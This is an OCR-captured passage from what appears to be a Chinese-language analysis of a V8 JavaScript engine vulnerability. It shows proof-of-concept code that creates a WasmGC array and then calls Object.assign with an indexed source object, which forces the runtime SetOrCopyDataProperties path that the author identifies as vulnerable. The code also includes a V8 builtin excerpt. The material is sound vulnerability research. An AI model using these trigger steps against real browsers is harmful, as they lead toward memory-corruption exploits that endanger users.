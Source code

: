 ```
        'createArray', 
        makeSig([kWasmI32], [kWasmExternRef])    // 函数签名: [kWasmI32]=>[kWasmExternRef]
    ).addBody([    // 生成函数体
            kExprLocalGet, 0,    // 栈上push局部变量0, 也就是函数kWasmI32类型的参数
            kGCPrefix, kExprArrayNewDefault, array,    // 创建array类型的数组, 元素为i32的默认值
            kGCPrefix, kExprExternConvertAny,    // 把wasm的值包装为Extern类型
    ]).exportFunc();    // 导出这个函数

let instance = builder.instantiate({});    // 构建wasm实例
let wasm = instance.exports;    // 获取导入的函数
let array42 = wasm.createArray(42);    // 42为wasm array的长度
%DebugPrint(array42);
```  
  
构造出  
WasmArray对象后就要想办法进入  
JSObject::NormalizeProperties(isolate, Handle::cast(target)  
  
**4.2**  
  
**进入**  
SetOrCopyDataProperties()  
  
对于  
Object.assign(...)  
```
let from = {};
Object.assign(array42, from);
```  
  
Object.assign()调用  
Builtin::kSetDataProperties 处理, 该函数首先会尝试fast path处理: 因此会先进入CSA实现的builtins方法:   
SetOrCopyDataProperties()  
  
```
TF_BUILTIN(SetDataProperties, SetOrCopyDataPropertiesAssembler) {
  auto target = Parameter<JSReceiver>(Descriptor::kTarget);
  auto source = Parameter<Object>(Descriptor::kSource);
  auto context = Parameter<Context>(Descriptor::kContext);

  Label if_runtime(this, Label::kDeferred);
  // 强制进入slow path
  GotoIfForceSlowPath(&if_runtime);   
  // 尝试fast path
  SetOrCopyDataProperties(context, target, source, &if_runtime, base::nullopt,
                          base::nullopt, true);
  Return(UndefinedConstant());

  BIND(&if_runtime);
  TailCallRuntime(Runtime::kSetDataProperties, context, target, source);
}
```  
  
为了不进入fast path, 分析  
SetOrCopyDataProperties()源码后发现: 只需要让  
job(from)->elements非空这样就可以进入  
if_runtime分支跳转到runtime方法  
SetOrCopyDataProperties()进行处理. CPP编写的runtime方法  
SetOrCopyDataProperties()才是真正包含漏洞的地方  
```
// job(from)->elements非空, 进入CPP方法JSReceiver::SetOrCopyDataProperties()处理
let from = {};
from[0]=0;
Object.assign(array42, from);
```  
  